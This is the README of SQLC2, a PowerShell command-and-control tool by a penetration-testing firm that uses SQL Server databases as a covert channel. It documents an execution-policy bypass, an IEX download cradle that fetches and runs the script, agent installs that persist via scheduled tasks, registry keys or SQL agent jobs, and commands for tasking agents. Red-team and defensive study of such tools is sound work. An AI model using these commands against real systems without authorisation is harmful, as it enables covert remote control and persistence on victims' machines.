 # SQLC2
SQLC2 is a PowerShell script for deploying and managing a command and control system that uses SQL Server as both the control server and the agent.  At its core, SQLC2 is just a PowerShell script, a TSQL script, and a few tables in an SQL Server instance that tracks agents, commands, and results. Nothing too fancy, but it may prove to be useful on some engagements. 

For a more complete overview of SQLC2 check out the blog at https://blog.netspi.com/.

### Author and License
* Author: Scott Sutherland (@_nullbind), NetSPI - 2018
* License: BSD 3-Clause
* Required Dependencies: None

# Why Bother with a SQL Server Based C2?
More companies are starting to use Azure SQL Server databases. When those Azure SQL Server instances are created, they are made accessible via a subdomain of database.windows.net on port 1433. For example, I could create SQL Server instance named "mysupersqlserver.database.windows.net". As a result, some corporate network configurations allow outbound internet access to any "database.windows.net" subdomain on port 1433. 

The general idea is that as Azure SQL Server adoption grows, there will be more opportunity to use SQL Server as a control channel that looks kind of like normal traffic.  SQLPS is a pretty basic proof of concept, but I think it’s functional enough to illustrate the idea. I know there are quite a few improvements to be made, but if you end up playing with it, I’d love your feedback.

##Not Just for Azure
Although there is an emphasis on using it with Azure SQL Server instances, you could host your own SQL Server in any cloud environment and have it listen on port 443 with SSL enabled. So, it could offer a little more flexibility depending on how much effort you want to put into it.

# Loading SQLC2
* **Option 1:** Download the script and import it.  This does not require administrative privileges and will only be imported into the current session.  However, it may be blocked by restrictive execution policies, so you may want to use the bypass option.

    `Set-ExecutionPolicy Bypass -Scope Process`
    
    `Import-Module SQLC2.psm1`
    
* **Option 2:** Load it into a session via a download cradle.  This does not require administrative privileges and will only be imported into the current session.  It should not be blocked by executions policies.

    `IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/NetSPI/SQLC2/master/SQLC2.psm1")`

     **Note:** To run as an alternative domain user, use the runas command to launch PowerShell first. 

    `runas /noprofile /netonly /user:domain\user PowerShell.exe`
    
# Basic SQLC2 architecture diagram
![SQLC2Arch](https://github.com/NetSPI/SQLC2/blob/master/images/arch.png) 

# User Functions
Below is a list of user functions that support the intended workflows.  

|Function Name|Description |
|:--------------------------------|:-----------|
|Install-SQLC2Server|Install SQLC2 tables on target SQL Server/database.|
|Install-SQLC2AgentPs|Install an agent that uses an SQL Server agent job and server link.|
|Install-SQLC2AgentLink|Install an agent that uses a schedule task or registry key to execute PowerShell commands.|
|Set-SQLC2Command|Set operating system commands for agents to run.|
|Get-SQLC2Command|Get a list of pending operating system commands from the C2 for the agent.  This can also execute the pending command with the -Execute flag.|
|Get-SQLC2Agent|Get a list of agents registered on the SQLC2 server.| 
|Get-SQLC2Result|Get a list of pending and completed commands. Support servername, status, and cid filters.|
|Remove-SQLC2Agent|Remove agents registered on the SQLC2. Simply clears the history.|
|Remove-SQLC2Command|Remove the command history on the SQLC2 server.|
|Uninstall-SQLC2AgentLink|Uninstall SQLC2 agent that uses server links and an agent job.|
|Uninstall-SQLC2AgentPs|Uninstall all operating system based persistence methods.|
|Uninstall-SQLC2Server|Remove the SQLC2 tables from the target database.|

# Screen Shots
Below are a few sample screenshots.

Install SQLC2 Server (Create tables):

`Install-SQLC2Server -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'`

![Install C2](https://github.com/NetSPI/SQLC2/blob/master/images/Install_SQLC2_Server.png) 

Install SQLC2 Agent (SQL Server agent Job that uses a server link):

`Install-SQLC2AgentPs -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'`

![Install Agent](https://github.com/NetSPI/SQLC2/blob/master/images/Install_SQLC2_Link_Agent.png)  

View SQLC2 Agents:

`Get-SQLC2Agent -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'`

![SQLC2Arch](https://github.com/NetSPI/SQLC2/blob/master/images/Get-Command-Results.png) 

Set Command to Run on Agent:

`Set-SQLC2Command -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'
-Command "Whoami" -ServerName MSSQLSRV04`

![Set_Command](https://github.com/NetSPI/SQLC2/blob/master/images/Set%20Command%20to%20Run%20on%20Agent.png)        

Get Command Results:

`Get-SQLC2Result -Verbose -ServerName "MSSQLSRV04" -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'`

![Get Command Output](https://github.com/NetSPI/SQLC2/blob/master/images/List%20execute%20agent%20commands.png)       

